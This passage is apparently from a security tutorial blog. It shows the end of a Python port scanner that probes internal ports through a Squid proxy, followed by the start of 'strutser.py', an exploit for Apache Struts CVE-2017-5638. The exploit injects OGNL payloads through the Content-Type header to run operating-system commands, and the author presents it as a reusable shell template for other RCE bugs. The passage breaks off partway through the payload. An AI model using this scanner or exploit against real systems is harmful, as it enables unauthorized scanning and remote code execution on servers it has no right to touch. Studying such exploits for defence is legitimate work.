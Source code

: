```

openports=set()

for portto in range(args.begin, args.end):
    repla = requests.get(URL + ':' + str(portto), proxies=proxies)
    if (not ('(111) Connection refused' in repla.text)): 
      print('------ PORT : ' + str(portto))
      print(repla.text)
      openports.add(portto)
    if ((portto % 19) == 18):
      print("still working .. (port " + str(portto) + ")")
    
print("----------------")
print("SCAN COMPLETE")
print("----------------")
print("OPEN PORTS: ")
for portto in openports:
  print(portto)
```


The scanner takes necessary information for the scan from command line arguments. Then it simply sends requests in a single thread and detects open ports based on the reply it gets from the squid proxy. After every 19th requested port it reports that it's still running so that we can see progress. Very straightforward, but not stealthy or very professional. Yet, very handy.

Not convinced yet? Let's take another example.

### Abusing Struts to gain a "shell" with RCE vulnerability

Remote Code Execution (RCE) is one of the coolest security vulnerabilities one can find in a system. Sometimes it's as easy as putting the command in one HTTP GET parameter, but usually it involves some tricks.

The [CVE-2017-5638](https://www.cvedetails.com/cve/CVE-2017-5638/) is one link in a long chain of RCE vulnerabilities related to OGNL handling in [Apache Struts](https://struts.apache.org/). For example, see [CVE-2013-1965](https://www.cvedetails.com/cve/CVE-2013-1965/), [CVE-2013-2134](https://www.cvedetails.com/cve/CVE-2013-2134/) or [CVE-2016-4461](https://www.cvedetails.com/cve/CVE-2016-4461/). Input handling is still difficult.

The CVE-2017-5638 tells us that we can execute Java code by sending it in *Content-Type* header. And since nobody really uses the Java security restrictions, we can call system exec and execute pretty much any operating system commands. Of course we are still limited by the user privileges of the user running the Struts application, but it's still huge. Manually crafting the payloads is tedious, so let's create a "shell" with Python. I have written other similar shells for other vulnerabilities, so this can serve as a template for exploiting other RCE vulnerabilities as well.

**strutser.py**
```
#!/usr/bin/python
#
# Apache Struts RCE exploiter CVE-2017-5638, shell-like experience

import os
import sys
import base64
import socket
import urllib
import requests

def runStruts(cmd, URL, PROXY):

  payload = "%{(#_='multipart/form-data')."
  payload += "(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)."
  payload += "(#_memberAccess?"
  payload += "(#_memberAccess=#dm):"
```
